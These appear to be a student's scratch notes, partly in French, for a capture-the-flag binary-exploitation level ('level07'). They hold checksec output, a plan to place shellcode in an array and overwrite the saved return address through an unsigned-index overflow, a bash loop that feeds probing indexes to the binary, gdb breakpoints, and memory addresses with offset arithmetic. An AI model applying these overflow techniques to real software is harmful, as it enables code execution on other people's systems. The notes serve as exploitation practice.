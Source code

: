 Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07

Ecrire un shellcode dans le tab
Ecraser le retour via l'overflow du tab
Quit pour exec ?


saved eip main : 0xf7e45513 (u_int : 4159916051)
4294967295 - 4159916051 = -135051244

4158964832

saved eip read : 0x8048930 (u_int : 134514224)

#!/bin/bash

for i in {4294967295..4294967500}; do
    sleep 0.01
    echo "read"
    sleep 0.01
    echo "$i"s
    echo "nb $i"
done | ~/level07

b *main+679

b *read_number+69


0xffffd458 = index 1 
(gdb) x/wx 0xffffd458
0xffffd458:     0xfffffffe

(gdb) x/wx 0xffffd458+452
0xffffd61c:     0xf7e45513

4294967295 = unsigned int max 
4158936339 = nb stored at data[114] = saved eip

-4294967182 = 114 aussi mais ne marche pas

0x8048930 = 134514992 = saved eip read_nb
0xffffd42c = 0x08048930

0xffffd408
0xffffd42c

find /w $ebp, +1000, 0x08048930


nput command: read
 Index: 4294967286
 Number at data[4294967286] is 134514992 (== 8048930)

 3735928559


saved eip 0x80488ef
0xffffd42c


b *get_unum+51
saved eip 0x8048656
0xffffd3fc:     0x08048656
92/4 = 23 octets